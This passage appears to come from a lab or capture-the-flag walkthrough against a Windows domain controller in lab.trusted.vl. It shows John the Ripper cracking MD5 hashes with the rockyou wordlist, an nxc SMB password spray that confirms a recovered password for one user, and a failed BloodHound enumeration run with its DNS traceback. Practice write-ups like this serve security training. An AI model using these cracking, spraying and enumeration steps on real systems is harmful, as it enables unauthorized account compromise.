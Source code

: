     stat: hashes.txt: No such file or directory
    ➜  trusted john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes    

    Using default input encoding: UTF-8
    Loaded 3 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
    Warning: no OpenMP support for this hash type, consider --fork=6
    Press 'q' or Ctrl-C to abort, almost any other key for status
    IHateEric2       (?)    

### password spray

    ➜  trusted nxc smb LABDC -u users.txt -p 'IHateEric2' --continue-on-success
    SMB         10.10.193.214   445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:False)
    SMB         10.10.193.214   445    LABDC            [+] lab.trusted.vl\rsmith:IHateEric2 
    SMB         10.10.193.214   445    LABDC            [-] lab.trusted.vl\ewalters:IHateEric2 STATUS_LOGON_FAILURE
    SMB         10.10.193.214   445    LABDC            [-] lab.trusted.vl\cpowers:IHateEric2 STATUS_LOGON_FAILURE
    SMB         10.10.193.214   445    LABDC            [-] lab.trusted.vl\:IHateEric2 STATUS_LOGON_FAILURE
    SMB         10.10.193.214   445    LABDC            [-] lab.trusted.vl\:IHateEric2 STATUS_LOGON_FAILURE

## bloodhound

fail

    ➜  bloodhound bloodhound-python -c ALL -u 'rsmith' -p 'IHateEric2' -d lab.trusted.vl -ns 10.10.193.214
    INFO: Found AD domain: lab.trusted.vl
    Traceback (most recent call last):
    File "/usr/bin/bloodhound-python", line 33, in <module>
        sys.exit(load_entry_point('bloodhound==1.7.2', 'console_scripts', 'bloodhound-python')())
                ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    File "/usr/lib/python3/dist-packages/bloodhound/__init__.py", line 308, in main
        ad.dns_resolve(domain=args.domain, options=args)
    File "/usr/lib/python3/dist-packages/bloodhound/ad/domain.py", line 719, in dns_resolve
        q = self.dnsresolver.query(query.replace('pdc','gc'), 'SRV', tcp=self.dns_tcp)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    File "/usr/lib/python3/dist-packages/dns/resolver.py", line 1364, in query
        return self.resolve(
            ^^^^^^^^^^^^^
    File "/usr/lib/python3/dist-packages/dns/resolver.py", line 1318, in resolve
        (nameserver, tcp, backoff) = resolution.next_nameserver()
                                    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    File "/usr/lib/python3/dist-packages/dns/resolver.py", line 763, in next_nameserver
        raise NoNameservers(request=self.request, errors=self.errors)
    dns.resolver.NoNameservers: All nameservers failed to answer the query _ldap._tcp.gc._msdcs.lab.trusted.vl.domain.name. IN SRV: Server Do53:10.10.193.214@53 answered SERVFAIL

so lets use dnschef
